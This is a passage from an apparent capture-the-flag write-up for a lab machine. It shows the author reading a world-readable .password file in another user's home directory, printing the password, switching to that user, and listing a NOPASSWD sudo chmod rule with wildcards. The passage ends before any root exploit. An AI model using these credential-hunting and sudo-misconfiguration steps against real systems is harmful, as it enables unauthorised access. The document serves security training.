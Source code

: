 ## User somaticadmin

I looked around the server, and quickly found the password for another user.

```bash
www-data@ctn-dlebrun-somatic:/var/www/html$ ls -la /home/
total 4
drwxr-xr-x  4 root         root          4 Apr 27 20:32 .
drwxr-xr-x 17 root         root         23 Dec 22 08:01 ..
drwxrwxrwx  4 somaticadmin somaticadmin 10 May 19 14:41 somaticadmin
drwxr-x---  2 ubuntu       ubuntu        5 Dec 22 07:56 ubuntu

www-data@ctn-dlebrun-somatic:/var/www/html$ ls -la /home/somaticadmin/
total 12
drwxrwxrwx 4 somaticadmin somaticadmin   10 May 19 14:41 .
drwxr-xr-x 4 root         root            4 Apr 27 20:32 ..
-rw------- 1 somaticadmin somaticadmin   13 May 19 14:41 .bash_history
-rwxrwxrwx 1 somaticadmin somaticadmin  220 Apr 27 20:32 .bash_logout
-rwxrwxrwx 1 somaticadmin somaticadmin 3771 Apr 27 20:32 .bashrc
drwx------ 2 somaticadmin somaticadmin    3 Apr 27 20:39 .cache
-rwxrwxrwx 1 somaticadmin somaticadmin   16 Apr 27 20:32 .password
-rwxrwxrwx 1 somaticadmin somaticadmin  807 Apr 27 20:32 .profile
drwxr-xr-x 2 www-data     www-data        2 May 19 14:41 .ssh
-rwxrwxrwx 1 somaticadmin somaticadmin  981 Apr 27 20:34 .viminfo

www-data@ctn-dlebrun-somatic:/var/www/html$ cat /home/somaticadmin/.password 
8H@ypKbB2iMvJ*3

www-data@ctn-dlebrun-somatic:/var/www/html$ su somaticadmin
Password: 

somaticadmin@ctn-dlebrun-somatic:/var/www/html$ 
```

## Getting root

With the password to a user, I could reconnect with SSH, it came in handy when I broke the server.

I looked at what I could so with `sudo`.

```bash
somaticadmin@ctn-dlebrun-somatic:~$ sudo -l
Matching Defaults entries for somaticadmin on ctn-dlebrun-somatic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User somaticadmin may run the following commands on ctn-dlebrun-somatic:
    (root) NOPASSWD: /bin/chmod -R g+w /tmp/* /*

somaticadmin@ctn-dlebrun-somatic:~$ groups
somaticadmin
```
